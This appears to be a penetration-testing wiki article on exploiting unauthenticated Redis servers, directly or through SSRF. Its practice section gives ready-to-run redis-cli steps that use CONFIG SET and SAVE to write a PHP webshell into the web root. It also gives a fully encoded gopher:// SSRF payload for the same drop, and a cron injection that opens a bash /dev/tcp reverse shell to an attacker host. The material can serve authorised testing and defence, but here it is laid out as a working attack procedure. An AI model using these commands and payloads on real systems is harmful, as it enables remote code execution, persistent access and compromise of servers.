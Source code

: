 ```yaml
---
title: 'Redis Exploitation: Command Execution Techniques'
description: Explore Redis exploitation techniques for unauthorized command execution
  using SSRF and configuration flaws.
keywords:
- Redis exploitation
- SSRF
- command execution
- unauthenticated access
- CONFIG SET
- SAVE command
- webshell
- reverse shell
- gopher payload
---
```


# Redis Exploitation

## Context

Redis exploitation enables attackers to achieve command execution on Redis servers by leveraging Server-Side Request Forgery (SSRF) and exploiting unauthenticated misconfigurations. This technique assumes knowledge of server-side request forgery, command execution mechanisms, and Redis configurations.

## Theory

### Redis as an SSRF Target

Redis is an in-memory data store that operates over the TCP protocol, often configured to run on internal networks. Thus, it becomes an attractive target for SSRF exploits. Attackers can craft SSRF payloads that interface with Redis to issue commands or alter its state. If Redis lacks proper authentication, it allows an attacker to control data and issue commands directly to the server.

### Unauthenticated Command Execution in Redis

Default Redis installations may not require authentication, which could leave the server vulnerable to arbitrary command executions when exposed or accessible through misconfigured network settings. Redis inherently trusts clients on internal networks, operating under the assumption that no malicious activity will originate from these sources.

### Abusing CONFIG SET and SAVE for File Write

Redis provides the command `CONFIG SET` to adjust its configuration dynamically, while the command `SAVE` forces a snapshot of the in-memory data to be written to disk. Attackers can exploit these functionalities by setting the database directory (dir) and file name (`dbfilename`) to a location within the web root. They can then store malicious scripts, like a PHP webshell, as key-value pairs and use the `SAVE` command to drop the payload into the desired location, gaining unauthorized control.

### Payload Delivery via SSRF: dict:// and gopher://

SSRF payloads can exploit the `dict://` and `gopher://` protocols to inject raw Redis protocol commands. The `gopher://` protocol, in particular, handles binary-safe payloads, making it effective in bypassing input filters that would block or sanitize `dict://` payloads. This capability allows attackers to seamlessly deliver crafted commands to Redis.

## Practice

### Webshell Drop via CONFIG SET and SAVE

To execute commands on a vulnerable Redis server and drop a webshell, follow these steps:

- Set the Redis database directory to the web server root directory:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dir /var/www/html/
    ```

- Set the database file name to end in `.php` so it can be interpreted as a PHP script:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dbfilename shell.php
    ```

- Store the PHP webshell in Redis as a key:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> SET webshell "<?php system($_GET['cmd']); ?>"
    ```

- Issue the save command to write the in-memory data to disk:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> SAVE
    ```

This sequence writes the PHP webshell to the specified location on the server, allowing remote command execution through the webshell.

### SSRF Payload Injection via gopher://

Inject the following gopher payload using SSRF to drop a PHP webshell:

```text
gopher://<redis_ip>:6379/_*3%0d%0a$3%0d%0aSET%0d%0a$9%0d%0awebshell%0d%0a$26%0d%0a<?php system($_GET['cmd']); ?>%0d%0a*3%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$3%0d%0adir%0d%0a$15%0d%0a/var/www/html/%0d%0a*3%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$10%0d%0adbfilename%0d%0a$9%0d%0ashell.php%0d%0a*1%0d%0a$4%0d%0aSAVE%0d%0a
```

This payload facilitates the creation of a webshell that enables attackers to perform unauthorized actions on the server.

### Reverse Shell via Redis Key Injection

Another method involves injecting a reverse shell command into the server's cron job using Redis commands. Follow these steps:

- Inject a cron job entry that opens a reverse shell back to an attacker's machine:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> SET cron "* * * * * bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1"
    ```

- Set the Redis directory to point to the cron directory where entries can be automatically scheduled:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dir /var/spool/cron/
    ```

- Set the file name in the cron directory:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dbfilename root
    ```

- Trigger Redis to save the cron configuration:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> SAVE
    ```

If executed with sufficient permissions, this method allows privilege escalation through persistent access to the system.

## Tools

- **redis-cli**
- **Burp Suite**
- **curl**